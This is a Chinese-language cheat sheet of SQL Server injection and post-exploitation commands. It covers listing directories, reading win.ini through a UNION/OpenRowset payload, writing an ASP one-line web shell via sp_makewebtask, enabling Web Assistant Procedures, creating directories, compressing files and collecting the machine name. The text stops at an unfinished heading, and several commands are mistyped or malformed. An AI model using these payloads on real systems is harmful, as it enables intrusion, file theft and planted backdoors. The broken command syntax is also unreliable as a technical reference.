 列目录

```bash
exec xp_subdirs "C:users\\Administrator\\",2,1

第一个参数设定要查看的文件夹。

第二个参数限制了这个存储过程将会进行的递归级数，默认是0或所有级别。

第三个参数告诉存储过程包括文件。默认是0或只对文件件，数值1代表结果集的文件
```



读取文件

```
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```



写文件

```bash
exec sp_makewebtask 'c:\www\testwr.asp',' select' '<%execute(request("SB"))%>''
```

需要开启Web Assistant Procedures

```bash
exec sp_configure 'web Assistant Procedures'，1; RECONFIGURE
```



在sql server 2012上开启失败。

创建目录

```bash
exec xp_create_subdir 'D:\test'
```



压缩文件

```bash
exec xp_makecab 'c:test.cab','mszip'，1, 'c:test.txt' , 'c:test1.txt'
```



## 信息获取

获取机器名

```bash
exec xp getnetname
```

获取系统信息
